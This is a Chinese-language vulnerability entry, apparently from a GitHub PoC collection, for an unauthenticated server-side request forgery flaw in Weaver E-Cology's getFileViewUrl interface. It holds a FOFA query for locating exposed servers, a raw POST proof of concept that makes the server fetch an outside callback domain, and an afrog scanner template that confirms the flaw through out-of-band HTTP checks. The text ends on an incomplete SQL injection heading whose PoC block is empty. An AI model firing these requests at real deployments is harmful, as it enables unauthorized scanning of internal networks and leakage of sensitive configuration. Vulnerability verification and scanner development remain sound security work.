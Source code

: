 泛微E-Cology getFileViewUrl 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。  
- fofa  
app="泛微-OA（e-cology）"  
- poc  
```
POST /api/doc/mobile/fileview/getFileViewUrl HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Upgrade-Insecure-Requests: 1

{
    "file_id": "1000",
    "file_name": "c",
    "download_url":"http://euixlkewfg.dgrh3.cn"
}
```  
- afrog poc  
```
id: 泛微E-Cology接口getFileViewUrl存在SSRF漏洞

info:
  name: 泛微E-Cology接口getFileViewUrl存在SSRF漏洞
  author: wy876
  severity: high
  verified: true
  description: |-
    泛微E-Cology getFileViewUrl 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。
    Fofa: app="泛微-OA（e-cology）"

  reference:
    - https://blog.csdn.net/qq_41904294/article/details/140301289
  tags: 泛微,ssrf
  created: 2024/07/10

set:
  oob: oob()
  oobHTTP: oob.HTTP
  oobDNS: oob.DNS

rules:
  r0:
    request:
      method: POST
      path: /api/doc/mobile/fileview/getFileViewUrl
      headers:
        Content-Type: application/json
      body: |
        {"file_id": "1000","file_name": "c","download_url":"{{oobHTTP}}"}
    expression: response.status == 200 && oobCheck(oob, oob.ProtocolHTTP, 3)

expression: r0()
```  
### 2.1.11泛微e-cology接口getLabelByModule存在sql注入漏洞  
- fofa  
app="泛微-E-Weaver"  
- poc  
```
```